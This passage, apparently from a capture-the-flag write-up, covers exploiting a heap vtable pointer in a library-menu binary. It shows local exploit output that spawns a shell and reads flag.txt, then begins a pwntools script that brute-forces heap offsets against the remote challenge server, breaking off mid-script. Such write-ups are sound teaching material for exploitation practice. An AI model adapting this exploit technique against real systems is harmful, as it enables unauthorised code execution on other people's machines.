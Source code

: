 ```
Here is where the vtable pointer is 0x1d2feb0
b'1) Donate book\n2) List books\n3) Fetch an item\n4) Return book\n5) Leave feedback'
b'\n> Enter reference number'
b': Thank you for returning the book\n1) Donate book\n2) List books\n3) Fetch an item\n4) Return book\n5) Leave feedback'
b'\n> Enter reference number'
b': Thank you for returning the book\n1) Donate book\n2) List books\n3) Fetch an item\n4) Return book\n5) Leave feedback'
b'\n> Enter index of book for feedback:'
b' Enter feedback:'
[*] Switching to interactive mode
$ cat flag.txt
hello
$  
```
## The Remote Solve

When I tried to run this on the remote server, it failed miserably. The results in the terminal of sending feedback looked like this:
```
b'\n> Enter reference number'
b': Thank you for returning the book\n1) Donate book\n2) List books\n3) Fetch an item\n4) Return book\n5) Leave feedback'
b'\n> Enter index of book for feedback:'
b' Enter feedback:'
[*] Switching to interactive mode
 Your feedback is highly valued!
1) Donate book
2) List books
3) Fetch an item
4) Return book
5) Leave feedback
```
I decided that most likely, the problem was that the offset of the vtable pointer in the heap was different on the remote host than on my local machine, based on the fact that feedback() method seems to be running normally. However, with no information on the infrastructure that was running remotely, I could not effectively test that hypothesis. After attempting to check offsets with some common Ubuntu libc versions and continuing to get the same offset of 0x14f0, I basically set the whole thing up in a for loop to test a range of heap offsets in the vicinity of my heap leak - 0x14f0, which I left running while I left the house for a couple hours. When I came back, I had a hit when i = -130, so the actual offset would have been my heap leak - 0x10e0.
```
for i in range(-500, 500):
	print("I IS THE NUMBER", i)
	from pwn import *

	target = remote('142.93.44.199', 31159)

	#target = process('./tableofcontents')

	#pid = gdb.attach(target, "\nb *add\nb *fetch\nb *fetch+488\nb *fetch+517\nb *return_book+144\n set disassembly-flavor intel\ncontinue")

	def donate_book(title):
		print(target.recvuntil(b'5) Leave feedback'))
		target.sendline(b'1')
		print(target.recvuntil(b'title'))
		target.sendline(title)

	def list_books():
		print(target.recvuntil(b'5) Leave feedback'))
		target.sendline(b'2')
		
```